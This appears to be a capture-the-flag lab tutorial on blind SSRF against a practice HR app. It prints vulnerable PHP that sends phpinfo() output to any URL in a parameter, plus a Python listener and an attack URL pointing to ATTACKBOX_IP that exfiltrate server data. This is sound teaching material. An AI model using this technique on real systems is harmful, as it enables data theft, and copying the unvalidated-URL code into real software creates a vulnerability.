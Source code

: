 # Blind SSRF

Blind SSRF refers to a scenario where the attacker can send requests to a target server, but they do not receive direct responses or feedback about the outcome of their requests. In other words, the attacker is blind to the server's responses. This type of SSRF can be more challenging to exploit because the attacker cannot directly see the results of their actions. We will discuss its various examples.

## Blind SSRF With Out-Of-Band

Out-of-band SSRF is a technique where the attacker leverages a separate, out-of-band communication channel instead of directly receiving responses from the target server to receive information or control the exploited server. This approach is practical when the server's responses are not directly accessible to the attacker.

For instance, the attacker might manipulate the vulnerable server to make a DNS request to a domain he owns or to initiate a connection to an external server with specific data. This external interaction provides the attacker with evidence that the SSRF vulnerability exists and potentially allows him to gather additional information, such as internal IP addresses or the internal network's structure.

### How it works

Once again, log in to the dashboard and click on the Profile tab in the navigation bar. We will see that it redirects to `http://hrms.thm/profile.php?url=localhost/getInfo.php`, which displays a message that data is being sent.

**Profile page on the HRMS app**

What is happening here? Once we load `profile.php`, it sends data to an external page named `getInfo.php`, which is probably used for analytics or logs.

```php
<?php
...
$targetUrl = $_GET['url'];
ob_start();
phpinfo();
$phpInfoData = ob_get_clean();
$ch = curl_init($targetUrl); 
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS, $phpInfoData);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$response = curl_exec($ch); 
...
?>
```

Source code analysis of the page shows that it is reading URL parameters, and without performing any validation, it sends the information to the server mentioned in the URL parameter. Here, an attacker can redirect the request to their server, thus getting additional information for exploitation or data pilferage.

On your AttackBox, create a new file called `server.py` and add the following code to it:

```python
from http.server import SimpleHTTPRequestHandler, HTTPServer
from urllib.parse import unquote

class CustomRequestHandler(SimpleHTTPRequestHandler):

    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')  # Allow requests from any origin
        self.send_header('Access-Control-Allow-Methods', 'GET, POST, OPTIONS')
        self.send_header('Access-Control-Allow-Headers', 'Content-Type')
        super().end_headers()

    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'Hello, GET request!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length).decode('utf-8')

        self.send_response(200)
        self.end_headers()

        # Log the POST data to data.html
        with open('data.html', 'a') as file:
            file.write(post_data + '\n')
        response = f'THM, POST request! Received data: {post_data}'
        self.wfile.write(response.encode('utf-8'))

if __name__ == '__main__':
    server_address = ('', 8080)
    httpd = HTTPServer(server_address, CustomRequestHandler)
    print('Server running on http://localhost:8080/')
    httpd.serve_forever()
```

The above code will receive all the content and save it to a file `data.html` on the server. To obtain the data, we first need to start a lightweight server. We can do this in AttackBox by using the following commands:

```sh
thm@machine$ sudo chmod +x server.py && sudo python3 server.py
```

Now open the browser and open `http://hrms.thm/profile.php?url=http://ATTACKBOX_IP:8080`, which will log the data in the `data.html`. Open the `data.html` file, which contains all the essential information related to the server that can be used to launch further attacks.

**Intercepted file image**

## Semi-Blind SSRF (Time-based)

Time-based SSRF is a variation of SSRF where the attacker leverages timing-related clues or delays to infer the success or failure of their malicious requests. By observing how long it takes for the application to respond, the attacker can make educated guesses about whether their SSRF attack was successful.

The attacker sends a series of requests, each targeting a different resource or URL. The attacker measures the response times for each request. If a response takes significantly longer, it may indicate that the server successfully accessed the targeted resource, implying a successful SSRF attack.